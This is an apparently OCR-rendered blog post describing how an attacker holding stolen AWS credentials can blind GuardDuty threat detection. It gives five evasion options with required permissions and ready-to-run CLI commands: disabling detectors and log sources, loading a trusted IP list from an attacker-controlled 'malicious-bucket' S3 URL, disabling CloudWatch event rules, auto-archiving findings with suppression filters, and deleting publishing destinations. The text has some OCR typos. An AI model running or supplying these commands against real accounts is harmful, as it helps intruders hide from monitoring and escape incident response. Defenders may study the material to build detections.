 ```yaml
---
layout: post
title: AWS Guard-OffDuty - Tricking the Guard
---
```


Let's assume that we have found and  successfullyvalidated some AWS credenhas during an engagement, it might be a good idea to modify threat detection services like GuardDuty. To reduce the likelihood of triggering an alert we therefore need to modify the GuardDuty configuration to stay cloaked. Modifying, deleting or modifying key attributes of GuardDuty might have a less likely chance to raise alerts. The actions we can do depend on the compromised permissions available, the GuardDuty architecture and the presence of higher level controls like [Service Control Policies](https://docs.aws.amazon.com/organizations/latest/userguide/orgs_manage_policies_scps.html). 

<p align="center">
<img width=300 src="/images/mr-bean-guard.gif">
</p>


GuardDuty itself uses a delegated admin or invite model but features like detector configurations and IP Trust lists are usually centrally managed. That pivot point can be used, but usually can only be modified in the GuardDuty administrator account. If this pattern isn't used, these features can be modified in the account that GuardDuty is running in. 

Let's check our options:

## Option1 - Patching the Detector
We can modify an existing GuardDuty detector in the account with the goal to remove log sources or lessen its effectiveness.

Configuration changes may include a combination of:

- Disabling the detector  
- Removing Kubernetes and S3 as Data Sources. This removes all available [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and/or [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html)  
- Increasing the event update frequency to 6 hours instead of the casual 15 minutes. This give some more time to dig around in the account and stay cloaked. To manage this we have to check the Required permissions to execute:

* `guardduty:ListDetectors`
* `guardduty:UpdateDetector`

Tiny cheat sheet of the CLI commands:

```bash
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```

---
## Option2 - Patching Trusted IP Lists
We could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html) - including their own IP on the list. Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them.

*DNS findings are exempt from the Trusted IP list.*

**Required permissions to execute:**

* `guardduty:ListDetectors`
* `guardduty:ListIPSet`
* `iam:PutRolePolicy`
* `guardduty:CreateIPSet (can be used to create a new list)`
* `guardduty:UpdateIPSet (update an existing list)`

Depending on the level of stealth required the file can be uploaded to an S3 bucket:
- Either in the target account
- or an account controlled by the attacker

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

## Option 3 - Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch-Events every 5 minutes. Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of a findings. Especially where the remediation is triggered in a member account as GuardDuty administrator protections do not extend to the Cloudwatch events in one of the member accounts.

But be aware that:

> In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

**Required permissions to execute:**

* `gevent:ListRules`
* `gevent:ListTargetsByRule`
* `gevent:PutRule`
* `gevent:RemoveTargets`

Tiny cheat sheet of the CLI commands:
```bash
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
--event-pattern "{\"source\":[\"aws.guardduty\"]}" \
--state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
--event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets --name guardduty-event \
--ids "GuardDutyTarget"
```

---
## Option 4 - Create Supression Rules
Newly create GuardDuty findings can be automatically archived via [Suppression Rules](https://docs.aws.amazon.com/guardduty/latest/ug/findings_suppression-rule.html). We can also use [filters](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_filter-findings.html) to automatically archive findings before they are fresh generated. 

**Required permissions to execute:**
* `guardduty:CreateFilter`

Tiny cheat sheet of the CLI commands:

```bash
aws  guardduty create-filter --action ARCHIVE \
                             --detector-id 123456 \
                             --name fancyfiltername \
                             --finding-criteria file://criteria.json
```

Filters can be created using the [CreateFilter API](https://docs.aws.amazon.com/guardduty/latest/APIReference/API_CreateFilter.html).

---
## Option 5 - Delete Publishing Destination
We could disable alerting simply by [deleting the destination](https://docs.aws.amazon.com/cli/latest/reference/guardduty/delete-publishing-destination.html) of alerts.

**Required permissions to execute:**

* `guardduty:DeletePublishingDestination`

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty delete-publishing-destination --detector-id abc123 --destination-id def456
```